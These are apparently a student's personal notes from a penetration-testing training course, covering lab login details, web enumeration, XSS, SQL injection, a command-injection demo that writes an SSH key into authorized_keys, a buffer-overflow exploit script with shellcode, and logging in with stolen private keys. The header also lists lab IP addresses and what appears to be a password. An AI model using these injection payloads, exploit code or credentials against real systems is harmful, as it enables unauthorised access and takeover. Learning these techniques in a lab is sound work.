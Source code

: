 ## Misc 

            https://sec.cybbh.io/public/security/latest/index.html
#### Test Day: August 15th

            xfreerdp /u:student /v:10.50.37.222 /dynamic-resolution +glyph-cache +clipboard


            Jump Box:   ssh student@10.50.20.235 -X 
                        CHT8QBJ8TQBlv7S
                        JOHA-005-M

            LinOps:     ssh student@10.50.40.22 -X  

            WinBox:     ssh student@10.50.37.222
                         
            ctf : server -> http://10.50.20.250:8000/

## Day 1 - Recon/Research/Pen Testing
### Pen Testing

#### Pen Testing Test Reporting

    OPNotes
      Actions being taken that works, maps, the things that have worked. Keeping track of the steps

    Penetration Test Reporting
      Executive Summary
        The tops, not evertything but a summary
      Technical Summary
        In the weeds, the more technical stuff
## Day 2 - Web Explotation
### HTTP Methods
    GET, POST, HEAD, PUT

### HTTP Response Codes
    10X Info, 2XX Success, 30X Redir, 4XX Client Err, 5XX Serv Err

### JavaScript (JS)
    HTML Frame of the House
    CSS is the paint and decoration
    JavaScript is used to change things afterwards

### HTTP Enumeration
```
nmap -v -sT -T5 --script http-enum.nse 10.50.31.75 -> web enum
nikto -h 10.50.31.75 -> info about the sub dirs 

sudo apt install nikto -y
```

### Cross-Site Scripting
    Attacker puts bad stuff on trusted website, it allows it to execute bad code
#### Reflected XSS
    Not stored, run JS on website, changes url, bad code in url
#### Stored XSS
    Actually stored on server

### Demo
    lin-ops> ssh-keyget -t rsa "enter", "enter" is in /home/student/.ssh/id_rsa"
    passhprhase -> blank
    have genterated key
    cd ~/.ssh 
    ca id_rsa.pub(lic key) "generated public key"
    in search box
        : whoami -> www-data
        : cat /etc/passswd -> home dir is /var/www
        : ls -la /var/www -> see if .ssh file is created
        : mksir /var/www/.ssh
        : echo "ssh-rsa 'key' student@lin-ops" > /var/www/.ssh/authorized_keys

## Day 3 - Web Explotation  Part 2 - SQL Injection 
### MySql
    Unsanitized vs Sanitized Fields
        Unsanitized test, enter '
            will return info, no errors or jeneric error
        Santized: items are removed, escaped into single string

    Server-Side Query Processing
        Before Input
            name='$name'...
            nmae='JohnDoe'

### Injecting Statemnet
    User Enters TOM' OR 1='1 in the name and pass fields
    Truth Statemnet: tom 'OR 1=' 1

    Back End
        name='tom' OR 1='1' AND PASS='tom' OR 1='1'

##
    mysql
    use session;
    select * from user;
    select id from user where name='admin';  = 0
    select id from user where name='tom';  = none
    select * from user where name='tom' OR 1=1;  = eveyrthing
    stacking statements, chain statements togetyher with ;

    To find the version
        Audi' UNION SELECT @@version,database(); #

## Nesting Statements
    # ignore the rest or -- tells to ignore stuff, comment out some of the sql error

## Day 4 - Reverse Engineering
     
### X86_64 Assembly - Common Terms
    Heap, Stack, Gen. Register, Ctrl. Register, Flags Register
    
### Reverse Engineering Workflow (Software)
```Shell
#!/usr/bin/python2.7

# FILL UP THE BUFFER 
buf = "A" * 62

#EIP Register to JMP ESP

buf += "\x59\x3b\xde\xf7"

#The mem addresses for JMP ESP

'''
0xf7de3b59 "\x59\x3b\xde\xf7"
0xf7f588ab
0xf7f645fb
0xf7f6460f
'''
## Assits with encoding NOP SLED
buf += "\x90" * 10

# Shell Code / palyoad below
# set CMD whoami && ifconfig


buf += b"\xdb\xc3\xd9\x74\x24\xf4\x58\xbb\xe6\xef\x4a\x63"
buf += b"\x29\xc9\xb1\x0e\x31\x58\x19\x03\x58\x19\x83\xe8"
buf += b"\xfc\x04\x1a\x20\x68\x90\x7c\xe7\x08\x48\x52\x6b"
buf += b"\x5c\x6f\xc4\x44\x2d\x07\x15\xf3\xfe\xb5\x7c\x6d"
buf += b"\x88\xda\x2d\x99\x99\x1c\xd2\x59\xe9\x74\xbd\x38"
buf += b"\x78\xed\x61\x9d\xa4\xcd\x08\x87\xcb\x62\xa5\x21"
buf += b"\x65\x1b\x39\xf9\x26\x6a\xd8\xc8\x49"

print(buf)
```
### Post Exploitation
            MISC:
                        SSH
                        ssh <user>@<ip> <cmd>
                        ssh student@10.50.32.38 ls -lisa
                        Priv Key Logon
                                    find private key, can use it to authenticate without password
                                                chmod +x /<stolenkey of user>
                                                ssh -i <stolen key of user> <user>@<ip>
                        
#### Control Sockets

#### Enumeration

#### Exfiltration
